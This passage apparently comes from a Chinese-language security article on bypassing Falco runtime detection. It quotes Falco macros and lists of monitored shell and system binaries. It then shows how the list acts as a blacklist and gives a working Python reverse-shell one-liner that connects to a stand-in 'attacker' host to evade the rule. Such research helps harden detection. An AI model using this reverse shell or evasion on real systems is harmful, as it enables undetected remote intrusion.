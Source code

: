 相关的宏和列表如下：

```
- macro: system_procs
  condition: proc.name in (coreutils_binaries, user_mgmt_binaries)
- list: shell_binaries
  items: [ash, bash, csh, ksh, sh, tcsh, zsh, dash]
- macro: inbound_outbound
  condition: >
    (((evt.type in (accept,listen,connect) and evt.dir=<)) or
     (fd.typechar = 4 or fd.typechar = 6) and
     (fd.ip != "0.0.0.0" and fd.net != "127.0.0.0/8") and
     (evt.rawres >= 0 or evt.res = EINPROGRESS))
- list: coreutils_binaries
  items: [
    truncate, sha1sum, numfmt, fmt, fold, uniq, cut, who,
    groups, csplit, sort, expand, printf, printenv, unlink, tee, chcon, stat,
    basename, split, nice, "yes", whoami, sha224sum, hostid, users, stdbuf,
    base64, unexpand, cksum, od, paste, nproc, pathchk, sha256sum, wc, test,
    comm, arch, du, factor, sha512sum, md5sum, tr, runcon, env, dirname,
    tsort, join, shuf, install, logname, pinky, nohup, expr, pr, tty, timeout,
    tail, "[", seq, sha384sum, nl, head, id, mkfifo, sum, dircolors, ptx, shred,
    tac, link, chroot, vdir, chown, touch, ls, dd, uname, "true", pwd, date,
    chgrp, chmod, mktemp, cat, mknod, sync, ln, "false", rm, mv, cp, echo,
    readlink, sleep, stty, mkdir, df, dir, rmdir, touch
    ]
- list: user_mgmt_binaries
  items: [login_binaries, passwd_binaries, shadowutils_binaries]
- list: login_binaries
  items: [
    login, systemd, '"(systemd)"', systemd-logind, su,
    nologin, faillog, lastlog, newgrp, sg
    ]
- list: passwd_binaries
  items: [
    shadowconfig, grpck, pwunconv, grpconv, pwck,
    groupmod, vipw, pwconv, useradd, newusers, cppw, chpasswd, usermod,
    groupadd, groupdel, grpunconv, chgpasswd, userdel, chage, chsh,
    gpasswd, chfn, expiry, passwd, vigr, cpgr, adduser, addgroup, deluser, delgroup
    ]
- list: shadowutils_binaries
  items: [
    chage, gpasswd, lastlog, newgrp, sg, adduser, deluser, chpasswd,
    groupadd, groupdel, addgroup, delgroup, groupmems, groupmod, grpck, grpconv, grpunconv,
    newusers, pwck, pwconv, pwunconv, useradd, userdel, usermod, vigr, vipw, unix_chkpwd
    ]
```

仔细思考后发现，第一条规则的条件中比较容易突破的点是 `(system_procs or proc.name in (shell_binaries)))`。我们可以将上面的列表理解为黑名单，那么如果要绕过第一条规则，只需要采用一种不在黑名单上的方式即可，例如借助Python来建立反弹shell：

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("attacker",10000));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
